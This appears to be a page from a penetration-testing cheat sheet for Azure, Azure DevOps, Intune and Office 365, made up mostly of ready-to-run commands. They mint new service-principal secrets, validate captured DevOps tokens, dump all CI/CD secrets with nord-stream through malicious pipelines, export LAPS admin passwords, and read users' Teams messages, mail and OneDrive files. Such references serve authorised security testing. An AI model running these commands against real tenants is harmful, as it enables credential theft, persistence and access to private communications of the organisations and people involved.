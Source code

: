 # Azure Services

## Azure Runbook

Runbook must be SAVED and PUBLISHED before running it.


## Azure Service Principal

* Generate a new service principal password/secret
    ```ps1
    Import-Module Microsoft.Graph.Applications
    Connect-MgGraph 
    $servicePrincipalId = "<service-principal-id>"

    $params = @{
        passwordCredential = @{
            displayName = "NewCreds"
        }
    }
    Add-MgServicePrincipalPassword -ServicePrincipalId $servicePrincipalId -BodyParameter $params
    ```


## Azure Devops

* Verify the validity of an Azure Personal Access Token (PAT)
    ```ps1
    PAT=""
    organization=""
    curl -u :${PAT} https://dev.azure.com/${organization}/_apis/build-release/builds
    ```

* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - Nord Stream is a tool that allows you to extract secrets stored inside CI/CD environments by deploying malicious pipelines. It currently supports Azure DevOps, GitHub and GitLab.
    ```ps1
    # List all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg --list-secrets

    # Dump all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg
    ```


## Microsoft Intune

* LAPS
    ```ps1
    #requires -modules Microsoft.Graph.Authentication
    #requires -modules Microsoft.Graph.Intune
    #requires -modules LAPS
    #requires -modules ImportExcel

    $DaysBack = 30
    Connect-MgGraph
    Get-IntuneManagedDevice -Filter "Platform eq 'Windows'" |
        Foreach-Object {Get-LapsAADPassword -DevicesIds $_.DisplayName} |
            Where-Object {$_.PasswordExpirationTime -lt (Get-Date).AddDays(-$DaysBack)} |
                Export-Excel -Path "c:\temp\lapsdata.xlsx" - ClearSheet -AutoSize -Show
    ```


## Office 365

### Microsoft Teams Messages

```ps1
TokenTacticsV2> RefreshTo-MSTeamsToken -domain domain.local
AADInternals> Get-AADIntTeamsMessages -AccessToken $MSTeamsToken.access_token | Format-Table id,content,deletiontime,*type*,DisplayName
```


### Outlook Mails

* Read user mails
    ```ps1
    Get-MgUserMessage -UserId <user-id> | ft
    Get-MgUserMessageContent -OutFile mail.txt -UserId <user-id> -MessageId <message-id>
    ```

### OneDrive Files

```ps1
$userId = "<user-id>"
Import-Module Microsoft.Graph.Files
Get-MgUserDefaultDrive -UserId $userId
Get-MgUserDrive -UserId $UserId  -Debug
Get-MgDrive -top 1
```


## References

* [Microsoft Graph - servicePrincipal: addPassword](https://learn.microsoft.com/en-us/graph/api/serviceprincipal-addpassword?view=graph-rest-1.0&tabs=powershell)
* [Microsoft Intune - Microsoft Intune support for Windows LAPS](https://learn.microsoft.com/en-us/mem/intune/protect/windows-laps-overview)
* [Pentesting Azure Mindmap - Alexis Danizan](https://github.com/synacktiv/Mindmaps)